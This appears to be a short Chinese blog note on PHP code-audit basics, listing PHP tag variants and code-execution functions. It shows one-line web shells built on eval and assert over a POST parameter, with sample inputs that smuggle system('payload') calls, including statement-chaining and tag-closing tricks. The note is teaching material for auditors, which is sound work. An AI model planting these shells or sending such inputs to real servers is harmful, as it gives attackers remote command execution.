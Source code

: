```yaml
---
title: PHP代码审计基础
date: 2023/5/31 19:48:25
categories:
- PHP
tags:
- 代码审计
---
```




# PHP标签

```php
<?php phpinfo()
<?php phpinfo()?>
<?php phpinfo();?>
    
<?= phpinfo() ?>  #short_open_tag = On
    
<script language="php">
phpinfo();
</script>
    
# ASP 风格的标签已在 PHP 7.0 中移除，不建议使用。
<%
phpinfo();
%>
```



# 代码执行函数

##  eval

`<?php eval("$_POST[1]")?>`

传参`?1=system('payload');`，需要在语句末加上；

也可以传参`?1=saduasgdasda;system('payload');`,因为`eval` 函数在执行时，第一条命令执行失败并不会影响第二条。

也可以传参`?1=?><?php system('payload');?>`



## assert

`<?php assert("$_POST[1]")?>`

```php
?1=system('payload')
```
